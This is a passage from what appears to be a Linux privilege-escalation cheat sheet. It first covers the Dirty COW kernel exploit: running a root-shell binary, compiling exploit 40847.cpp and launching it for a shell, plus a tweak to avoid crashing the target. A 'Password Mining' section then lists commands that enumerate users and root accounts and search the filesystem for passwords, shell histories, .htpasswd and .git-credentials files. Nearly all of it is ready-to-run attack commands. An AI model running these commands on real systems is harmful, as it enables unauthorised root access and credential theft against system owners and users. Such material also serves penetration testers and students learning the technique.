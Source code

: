 ### pop root shell
```
./cowroot
```

### disable dirty writeback may prevent machine from crash
```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

### compile on target - 40847.cpp
```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

### pop reverse shell (automatically disable dirty writeback)
```
./dcow -s
```


# Password Mining
```
# information about current user
id || (whoami && groups) 2>/dev/null
```

## get all local user (try user = password for striking users)
```
cat /etc/passwd | cut -d ":" -f 1
```

## get all superuser
```
awk -F: '($3 == "0") {print}' /etc/passwd 
```

## search for passwords
```
grep -lRi "password" /home /var/www /var/log 2> /dev/null | sort | uniq
```

## check interesting files
```
ls -a /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/
```

## find interesting files
```
find / -type f -name "*_history" -o -name ".sudo_as_admin_successful" -o -name ".profile" -o -name "*bashrc" -o -name "httpd.conf" -o -name "*.plan" -o -name ".htpasswd" -o -name ".git-credentials" -o -name "*.rhosts" -o -name "hosts.equiv" -o -name "Dockerfile" -o -name "docker-compose.yml"  2>/dev/null
```
